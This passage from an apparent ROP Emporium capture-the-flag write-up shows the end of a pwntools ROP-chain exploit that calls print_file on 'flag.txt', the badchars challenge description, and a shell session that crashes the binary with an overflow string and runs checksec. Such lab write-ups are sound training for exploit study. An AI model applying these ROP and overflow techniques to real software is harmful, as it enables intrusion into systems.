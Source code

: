 ```python

# --------------------------------------------------
# Step 5: Set up argument and call print_file
#   1. pop rdi ; ret
#   2. rdi = data_section (which now holds "flag.txt")
#   3. call print_file@plt

payload += p64(pop_rdi)              # Gadget to set rdi
payload += p64(data_section)         # rdi = address of "flag.txt"
payload += p64(print_file)           # call print_file("flag.txt")

# --------------------------------------------------
# Step 6: Send payload and interact with the process
io.sendline(payload)
io.interactive()
```
## Badchars

Dealing with bad characters is frequently necessary in exploit development, you've probably had to deal with them before while encoding shellcode. "Badchars" are the reason that encoders such as shikata-ga-nai exist. When constructing your ROP chain remember that the badchars apply to _every_ character you use, not just parameters but addresses too. **To mitigate the need for too much RE the binary will list its badchars when you run it.**

ropper has a bad characters option to help you avoid using gadgets whose address will terminate your chain prematurely, it will certainly come in handy. **Note that the amount of garbage data you'll need to send to the ARM challenge is slightly different.**

You'll still need to deal with writing a string into memory, similar to the write4 challenge, that may have badchars in it. Once your string is in memory and intact, just use the `print_file()` method to print the contents of the flag file, just like in the last challenge. Think about how we're going to overcome the badchars issue; should we try to avoid them entirely, or could we use gadgets to change our string once it's in memory?

It's almost certainly worth your time writing a helper function for this challenge. Perhaps one that takes as parameters a string, a desired location in memory and an array of badchars. It could then write the string into memory and deal with the badchars afterwards. There's always a chance you could find a string that does what you want and doesn't contain any badchars either.

```bash
┌──(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/barchar]
└─$ ./badchars
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault  ./badchars

┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/barchar]
└─$ checksec badchars
[*] '/mnt/c/Users/At0m/Temp/rop/rop_emporium_all_challenges/barchar/badchars'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

